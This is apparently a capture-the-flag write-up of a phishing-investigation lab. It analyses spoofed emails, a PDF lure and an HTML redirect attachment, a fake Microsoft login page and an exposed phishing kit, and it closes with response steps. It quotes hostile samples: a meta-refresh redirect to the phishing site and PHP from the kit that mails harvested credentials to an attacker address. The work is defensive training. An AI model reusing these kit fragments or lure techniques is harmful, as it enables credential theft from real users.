# Snapped Phish-ing Line: Following the Bait Back to the Tackle Box

[Snapped Phish-ing Line](https://tryhackme.com/room/snappedphishingline) is a TryHackMe challenge room for SOC enthusiasts.

```
As a member of the IT department at SwiftSpend Financial, you are responsible for assisting employees with technical concerns. What initially appeared to be a routine day quickly escalated when multiple employees across different departments reported receiving a suspicious email. Several users noted unusual characteristics in the message, and unfortunately, some had already submitted their credentials and were no longer able to access their accounts. With the potential for a wider compromise, the incident has been escalated for investigation. Your task is to analyze the available evidence, determine the scope of the attack, and uncover how the adversary operated.
```

I used the room's guided questions as checkpoints, but tried to work each stage the way I would on a real ticket: headers first, then attachments, then infrastructure, then the kit itself.

## Environment and tools

The room gives you an Ubuntu VM with five `.eml` files in `~/Desktop/phish-emails` and a browser. The VM has no internet access, and the phishing site the emails point to is hosted inside the lab.

```
'Group Marketing Online Direct Credit Advice - derick.marshall@swiftspend.finance.eml'
'Group Marketing Online Direct Credit Advice - michael.ascot@swiftspend.finance.eml'
'Group Marketing Online Direct Credit Advice - michelle.chen@swiftspend.finance.eml'
'Group Marketing Online Direct Credit Advice - zoe.duncan@swiftspend.finance.eml'
'Quote for Services Rendered processed on June 29 2020 100132 AM.eml'
```

Tools I used:

- `grep`, `sed` and `base64` for reading and carving the raw emails
- Thunderbird, to see each email the way the victim saw it
- `file`, `pdfinfo` and `sha256sum` for the attachments
- Firefox inside the VM for the phishing site
- CyberChef and VirusTotal from my own machine

### A note on opening things you shouldn't

At one point the room tells you to open the attachment in the VM's browser. In this lab that's fine: the VM is offline, the site lives inside the lab network, and the whole box gets thrown away afterwards, so it behaves like a disposable sandbox.

On a real investigation I'd handle it differently, and I've tried to show both throughout:

- Read attachments as text. Never double-click them on an analyst workstation.
- If a page has to be rendered, do it in an isolated analysis VM or a sandbox service.
- Look files up on VirusTotal by hash. 

## Stage 1: The quote email

The first email went to William McClean, apparently from an accounts payable team at "Group Marketing Online".



### Two different senders

An email carries two sender identities. The envelope sender is used by mail servers during delivery and ends up in `Return-Path`. The header `From:` is what the mail client displays. They're allowed to differ (newsletters do it all the time), which is exactly why they're worth comparing.

| Field | Value |
|---|---|
| `From:` (what William saw) | `Accounts.Payable@groupmarketingonline[.]icu` |
| `Return-Path:` (envelope) | `goudo-k@po3.across.or[.]jp` |
| `Message-ID` domain | `po3.across.or[.]jp` |
| DKIM signing domain (`d=`) | `po3.across.or[.]jp` |
| `Reply-To:` | none |

The authentication results all pass:

```
Authentication-Results: spf=pass (sender IP is X.X.X.X) smtp.mailfrom=po3.across.or.jp;
 swiftspend.finance; dkim=pass (signature was verified)
 header.d=po3.across.or.jp;swiftspend.finance; dmarc=pass action=none
 header.from=po3.across.or.jp;compauth=pass reason=100
```

Each check proves something narrow:

- SPF checks that the sending IP is authorised by the envelope sender's domain.
- DKIM checks a cryptographic signature from the domain in `d=`, covering the headers listed in `h=` plus the body.
- DMARC checks that the domain the user sees in `From:` lines up with a domain that passed SPF or DKIM, then applies that domain's published policy.

The DMARC result claims `header.from=po3.across.or.jp`, but the actual `From:` line says `groupmarketingonline.icu`. Both can't be true for the same message. The DKIM signature's header list also includes `From`:

```
DKIM-Signature: v=1; a=rsa-sha256; c=relaxed/simple; d=po3.across.or.jp; s=mmtr1;
 t=1591753858; i=goudo-k@po3.across.or.jp;
 h=Content-Type:From:To:Subject:Message-ID:Date:MIME-Version; ...
```

If anyone had changed `From:` after signing, DKIM verification would fail. The most likely explanation is that the sample was edited when the room was built. In real life DMARC would evaluate `groupmarketingonline.icu`, which publishes no DMARC record, so the result would have been `dmarc=none` and the email would most likely have been delivered anyway. DMARC protects domain owners from having their own domain spoofed. It has no opinion on a domain the attacker registered themselves.

### No Reply-To

Without a `Reply-To:`, replies go to the `From:` address. Business email compromise scams usually set one so the conversation gets routed to the attacker. Its absence here fits a campaign that doesn't want a conversation at all. It wants a click on the attachment.

Why it worked: from the mail system's point of view, nothing was wrong. A real provider sent the message from a real account, every check passed, and the only warning William got was the generic "EXTERNAL SENDER" banner that sits on top of every outside email.

## Stage 2: The PDF attachment

The attachment headers looked suspicious straight away:

```
Content-Type: text/html; name="Quote.pdf"
Content-Transfer-Encoding: base64
Content-Disposition: attachment
```

An HTML file wearing a PDF hat is a classic trick, so I went in expecting HTML smuggling. Email bodies are split into parts separated by boundary lines. Each part has its own small header block, a blank line, then the content, here base64-encoded because email was designed for plain text. I cut the base64 block out by line number and decoded it:

```
$ sed -n '2215,4135p' "$FILE" > attachment.b64
$ base64 -di attachment.b64 > attachment.bin
```

I gave the output a `.bin` extension on purpose. If it really was HTML, an accidental double-click would open it in a browser, run any JavaScript, follow redirects and load remote resources. A file the desktop doesn't recognise just sits there.

Then I checked what I'd actually got:

```
$ file attachment.bin
attachment.bin: PDF document, version 1.7
$ head -c 8 attachment.bin
%PDF-1.7
```

It was a perfectly ordinary PDF. The MIME header was wrong, and so was I. The lesson stuck anyway: the declared type is just a label someone typed, and the magic bytes at the start of the file are what count.

### Finding the hook

Most of a PDF is compressed streams, which is why `less` shows mostly noise. 
After checking PDF syntax for link annotation, I found that I needed to search for the `/URI` action, so I did just that. I used `grep -a` to process binary file as it was a text:

```
$ grep -a "/URI" attachment.bin
<</Subtype/Link/Rect[ 223.37 250.49 352.75 281.95] /BS<</W 0>>/F 4/A<</Type/Action/S/URI/URI(https://kennaroads.buzz/data/Update365/office365) >>/StructParent 1>>
```

The page shows an image of a button and over it is the real link: `hxxps://kennaroads[.]buzz/data/Update365/office365`.

Before calling it "just a link" I checked for active content. PDFs can carry JavaScript, actions that fire on open, embedded files and launch commands:

```
$ grep -a -c -E "/JavaScript|/JS|/OpenAction|/AA|/Launch|/EmbeddedFile" attachment.bin
0
```

`pdfinfo` agreed (`JavaScript: no`). The metadata is generic:

```
$ pdfinfo attachment.bin
Author:         User PC
Creator:        Microsoft® Word for Office 365
JavaScript:     no
Pages:          1
```

Finally, the hash, before doing anything else with the file:

```
$ sha256sum attachment.bin
04ae3286641e71356ab3fb8e05cee0da58d94a7f6afe49620d24831db33d3441  attachment.bin
```

And there it was on VirusTotal:



From analytics insights:
```
The document is a phishing lure designed to impersonate a Microsoft OneDrive file-sharing notification. It utilizes social engineering tactics to encourage the user to click an 'Access Document' button, a common method for redirecting targets to credential-harvesting sites. Visual analysis reveals several red flags, including inconsistent branding, generic messaging without specific recipient details, and the use of a PDF file to host a single external link to bypass email security filters.
```

Why it worked: the email headers show Kaspersky scanned the attachment and marked it clean (`X-KSE-Antivirus-Info: Clean`), and it was right. There's no malware in this PDF, only a link behind a picture of a button. Signature-based scanning has nothing to find, which is why link-based credential phishing gets through so reliably.

## Stage 3: The other four emails: HTML redirects

The other four emails share one template, with the recipient's address dropped into the subject line. The room points you at Zoe Duncan's.



The authentication results were a mess, similarly to the first example. By this point I deduced that the SPF/DKIM/DMARC checks weren't an intended part of the room, so I left them be. 

### The HTML attachment

This time the attachment really was HTML:

```html
<meta http-equiv="refresh" content="0;URL='http://kennaroads.buzz/data/Update365/office365/40e7baa2f826a57fcf04e5202526f8bd/?email=zoe.duncan@swiftspend.finance&error'" />
...
<p>If you are not redirected automatically, please click <a href="http://kennaroads.buzz/data/Update365/office365/40e7baa2f826a57fcf04e5202526f8bd/?email=zoe.duncan@swiftspend.finance&error">here</a>.</p>
```

A meta refresh with a delay of `0` tells the browser to load the new URL immediately. It's plain HTML, so it works with JavaScript disabled, and the fallback link catches anyone whose browser refuses. Zoe's address is baked into the file, which means every recipient got a personalised attachment. Same domain and path as the PDF, so both lures feed the same kit.

Why it worked: a tiny HTML file with no script and no payload looks like nothing to a scanner. Opened locally, it hands the browser straight to the attacker's site with the victim's email already filled in.

## Stage 4: The fake login page

Following the room's instruction, I opened the attachment in the VM's browser.



A Microsoft sign-in page, already showing `zoe.duncan@swiftspend.finance` and asking only for the password. That's the `?email=` parameter at work. The real Microsoft login is a two-step flow (username, then password), and the kit copies the second step so the victim feels they're halfway through a familiar process. 

## Stage 5: The open directory

>Let’s check if the attacker left any files exposed on the same website.  
Navigate to the `/data` directory.  
What is the name of the archive file?




`/data/` returned a directory listing with `Update365.zip` sitting next to the extracted `Update365/` folder. 

I downloaded the zip, hashed it, copied the hash out of the VM and searched for it on VirusTotal:

```
$ sha256sum Update365.zip
ba3c15267393419eb08c7b2652b8b6b39b406ef300ae8a18fee4d16b19ac9686  Update365.zip
```



32 of 64 vendors flag it, with the threat label `trojan.phishmailer/phishingms` and family labels `phishmailer`, `phishingms` and `akgpp`. A known hash means a commodity kit sold or shared between operators, which shapes the response: this is a common phishing operation, not a targeted actor with custom tooling.



The bundle has 49 files, 12 of them PHP.

### The credential log

Inside `/data/Update365/` the kit had been writing captured credentials to a log file readable by anyone who browsed there. Passwords redacted by me:

```
---------+ Office365 Login  |+-------
Email : michael.ascot@swiftspend.finance
Password : [redacted]
Client IP: 64.62.197.80
Date: Mon Jun 29, 2020 10:01 am
--+ Created BY Real Carder +---
---------+ Office365 Login  |+-------
Email : zoe.duncan@swiftspend.finance
Password : [redacted]
Client IP: 64.62.197.80
Date: Mon Jun 29, 2020 10:01 am
--+ Created BY Real Carder +---
---------+ Office365 Login  |+-------
Email : michael.ascot@swiftspend.finance
Password : [redacted]
```

This is the trimmed list, but several employees fell for the campaign and entered their passwords on the fake website. 

## Stage 6: Inside the phishing kit

The kit's `Validation/submit.php` is the script the fake login form posts to. Trimmed to the interesting parts:

```php
if ($_SERVER['REQUEST_METHOD'] == 'GET')
{
print '<html><head><title>403 - Forbidden</title></head><body><h1>403 Forbidden</h1>...';
exit;
}
```

Anyone browsing to the script directly gets a fake 403. Only a POST from the login form gets processed, so a curious analyst or a crawler sees a dead end.

```php
$send = "m3npat@yandex.com";
$bron = "Outlook update $ip | Office365";
...
if ($passchk < 6)
{
header("Location: index.php?$url&email=$email&error=2");
}
else
{
mail("m3npat@yandex.com",$bron,$message,$lagi);
header("Location: retry.php?$url&email=$email&error=2");
}
```

Credentials go to `m3npat@yandex.com` via PHP's `mail()`. Then the victim lands on `retry.php` with `error=2`, which (judging by the name and the parameter) tells them the password was wrong. They type it again. That's a neat explanation for Michael's double entry, and it gives the attacker a second copy in case of a typo. 
### The final flag

After visiting the `Update365` directory I was greeted with "Not Found". 




The flag lives in `/data/Update365/office365/flag.txt`.



CyberChef's "From Base64" produced readable text, backwards. Adding a "Reverse" operation fixed it: `THM{...}`.





## Response

If this were a real ticket, my next steps would be:

- Reset passwords for all accounts which were included in credential log, revoke their active sessions, and confirm MFA is enforced.
- Review their sign-in logs for logins from unfamiliar IPs, and check their mailboxes for forwarding or inbox rules, which attackers often add straight after a takeover.
- Purge the campaign from all five mailboxes and search for any other recipients.
- Block both domains at the mail gateway and web proxy, then search proxy logs for anyone else who visited `kennaroads.buzz`.
- Report the site to its hosting provider.

## Lessons learned

- Trust the bytes over the label. The MIME header said HTML, the filename said PDF, and only `file` and the magic bytes told the truth.
- SPF, DKIM and DMARC passing only tells you which infrastructure sent a message. Every check passed on email 1 and it was still phishing.
- When you find a phishing URL, walk up the path. An open directory handed over the kit and a log of every victim.
- Hash every file before you start working with it, so you have a fixed record of what you analysed and something to search by.

## MITRE ATT&CK mapping

| Tactic               | Technique                                                    | Evidence                                                           |
| -------------------- | ------------------------------------------------------------ | ------------------------------------------------------------------ |
| Resource Development | T1583.001 Acquire Infrastructure: Domains                    | `groupmarketingonline[.]icu`, `kennaroads[.]buzz`                  |
| Resource Development | T1586.002 Compromise Accounts: Email Accounts                | Email 1 sent from `goudo-k@po3.across.or[.]jp` (inference)         |
| Resource Development | T1608.005 Stage Capabilities: Link Target                    | Phishing kit hosted on `kennaroads[.]buzz`                         |
| Reconnaissance       | T1598.002 Phishing for Information: Spearphishing Attachment | PDF and HTML attachments leading to the credential-harvesting page |
| Defense Evasion      | T1656 Impersonation                                          | Fake vendor sender and fake Microsoft sign-in page                 |
| Credential Access    | T1056.003 Input Capture: Web Portal Capture                  | Fake Microsoft 365 sign-in page capturing passwords (see note)     |
| Initial Access       | T1078.004 Valid Accounts: Cloud Accounts                     | Captured Microsoft 365 credentials                                 |
| Impact               | T1531 Account Access Removal                                 | Victims locked out of their accounts                               |
> T1056.003 is defined around tampering with a legitimate login portal, but ATT&CK's own procedure examples (Kimsuky, Winter Vivern) include attacker-hosted fake login pages, so I've used it here.